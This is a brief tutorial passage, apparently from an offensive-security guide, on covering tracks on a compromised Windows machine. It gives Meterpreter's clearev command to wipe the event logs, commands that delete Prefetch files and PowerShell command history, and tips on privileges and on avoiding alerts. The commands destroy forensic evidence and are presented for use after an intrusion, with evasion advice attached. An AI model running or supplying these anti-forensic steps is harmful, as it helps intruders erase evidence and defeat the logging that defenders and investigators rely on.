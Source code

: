 Clearing tracks on a Windows system after exploitation is often part of anti-forensics or post-exploitation cleanup. Whenever you successfully gain access to a Windows target, all of your activity is being logged in the form of Windows events. Meterpreter provides you with the ability to clear the entire Windows Event log. This can be done by running the following commands:

```shell
clearev # meterpreter
# This command clears the Application, System, and Security event logs

rm -f C:\\Windows\\Prefetch\\*
# Deletes files that show what was executed recently

rm -f C:\\Users\\<username>\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost_history.txt
# If you spawned a shell or PowerShell from Meterpreter
```

Always check your session privileges (getuid, getprivs) — you may need SYSTEM or Administrator rights for full cleanup. Avoid overdoing it: aggressive log clearing is suspicious and often triggers alerts.

